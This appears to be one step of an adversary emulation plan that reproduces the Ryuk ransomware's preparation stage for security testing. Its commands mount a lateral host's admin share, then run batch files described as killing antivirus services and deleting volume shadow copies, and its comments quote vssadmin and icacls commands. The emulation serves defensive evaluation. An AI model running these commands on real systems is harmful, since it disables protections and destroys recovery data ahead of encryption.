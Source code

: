 <br>

## Test 5 (Step 9)

### Step 9 - Ryuk Inhibit System Recovery

:microphone: `Voice Track:`

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---

### :biohazard: Procedures

In the CMD session, mount share so Ryuk can encrypt lateral drives:

```
net use Z: \\10.0.0.8\C$
```

```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]

copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```
[Source Code](../../Resources/Ryuk/bin/kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]

copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```
[Source Code](../../Resources/Ryuk/bin/window.bat)

### :microscope: Cited Intelligence

* https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf
